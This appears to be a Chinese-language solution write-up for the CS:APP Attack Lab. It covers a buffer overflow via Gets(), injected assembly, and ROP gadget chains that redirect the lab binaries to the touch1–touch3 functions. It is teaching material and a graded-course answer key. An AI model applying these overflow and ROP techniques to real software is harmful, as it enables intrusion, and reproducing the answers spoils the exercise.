

# AttackLab-Solution

## 一切的开始

根据pdf里的说明，getbuf()函数中使用Gets()读取字符串，这将造成栈溢出，根据IDA可知，这个大小为40



当输入字符串长度超过40时，便会覆盖到原来的返回地址，就可以控制程序走向

## Phase 1

执行ctarger中的touch1，没有其他条件，覆盖返回地址为touch1的函数地址即可(0x4017C0)

## Phase 2 Code Injection Touch2

执行ctarger中的touch2，要求传入的rdi值是自己cookie值，注意到每次调试时栈地址都相同，且栈可以执行，可以在栈中存放代码执行，通过ret方式返回到touch2执行

```assembly
mov edi,0x59b997fa #替换为实际cookie值
ret
```

| 栈结构                                      |
| ------------------------------------------- |
| 汇编代码 （输入字符串起始地址）             |
| 填充至40                                    |
| 返回地址 返回到汇编代码  <--执行完gets的rsp |
| 返回到touch2                                |

## Phase 3 Code Injection Touch3

执行ctarger中的touch3，要求传入的rdi值是自己cookie值的字符串形式，需要注意字符串的存放位置，防止进入touch3时栈的内容变化，放到原rsp之后即可

```assembly
mov rdi,0x5561dc78+40+8+8
ret
```

| 栈结构                                      |
| ------------------------------------------- |
| 汇编代码 （输入字符串起始地址）             |
| 填充至40                                    |
| 返回地址 返回到汇编代码  <--执行完gets的rsp |
| 返回到touch3                                |
| cookie字符串形式 '59b997fa\x00'             |

## Phase 4 ROP Touch2

执行rtarger中的touch2，要求传入的rdi值是自己cookie值，这里不能在栈上执行代码，需要使用程序原有的代码碎片，通过pop将寄存器赋值，使用ROPgadget找到代码碎片

| 栈结构                          |
| ------------------------------- |
| 填充至40                        |
| 返回地址 40141b : pop rdi ; ret |
| cookie值 0x59b997fa             |
| touch2地址                      |

## Phase 5 ROP Touch3

执行rtarger中的touch3，要求传入的rdi值是自己cookie值的字符串形式，需要在一块可写的内存中写入字符串

| 栈结构                                      |
| ------------------------------------------- |
| 填充至40                                    |
| 返回地址 40141b : pop rdi ; ret             |
| 可写地址 0x606000                           |
| 4019ab : pop rax ; nop ; ret                |
| b'59b9\x00\x00\x00\x00'                     |
| 40214e : mov dword ptr [rdi + 8], eax ; ret |
| 40141b : pop rdi ; ret                      |
| 0x606004                                    |
| 4019ab : pop rax ; nop ; ret                |
| b'97fa\x00\x00\x00\x00'                     |
| 40214e : mov dword ptr [rdi + 8], eax ; ret |
| 40141b : pop rdi ; ret                      |
| 字符串地址 ：0x606008                       |
| touch3函数地址：0x4018fa                    |